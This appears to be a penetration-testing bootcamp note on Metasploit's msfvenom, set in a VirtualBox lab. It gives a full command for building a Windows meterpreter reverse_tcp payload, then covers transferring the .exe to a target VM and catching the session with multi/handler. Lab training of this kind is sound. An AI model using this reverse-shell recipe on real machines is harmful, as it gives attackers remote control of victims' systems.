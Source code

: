 ## msfvenom:
- msfvenom is a command-line tool in Metasploit.
- Used to create custom payloads for exploiting vulnerabilities in target systems.
- It allows you to generate various types of payloads, such as reverse shells or malicious files, which can be used for penetration testing or attacks.
- `Syntex: msfvenom -p <payload> <options> -f <format> -o <output_file>`

## some useful CMD:
- msfvenom --help
- msfvenom --list format (Lsit out of all the supported payload file types)
- 

- ![image](https://github.com/IOxCyber/ZtoM_Bootcamp/assets/40174034/224a9deb-f7af-4b84-b35d-728ad3a2c787)

- msfvenom Path `/usr/bin`

## Steps to create a basic Payload:
- `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP-of-Local-VM> LPORT=<Listening-Port-Local-VM> -f <file type eg. exe> -o <Output File Name eg. payload.exe>`
- After running it in the terminal, One .exe file will be obtained.
- Since, the Target VM isn't vulnerable in this example hence, this `.exe` file needs to be `transferred from the Local VM to Target VM by any means.`
- In this case of Virtual Box, a shared folder can be used to transfer the `.exe` file to Target `Windows 10 VM.`

- After transferring, use `exploit(multi/handler)` & set the options `LHOST=<IP-of-Local-VM>` `LPORT=<Listening-Port-Local-VM>` `Payload: windows/x64/meterpreter/reverse_tcp`
- ![image](https://github.com/IOxCyber/ZtoM_Bootcamp/assets/40174034/36967cb6-f760-4bdc-922e-c7335bb69bae)
> Run the `exploit(multi/handler)` before running the Payload in Target VM.
- Run the `.exe` file in the `Windows 10 VM` (Nothing will happen there)


 
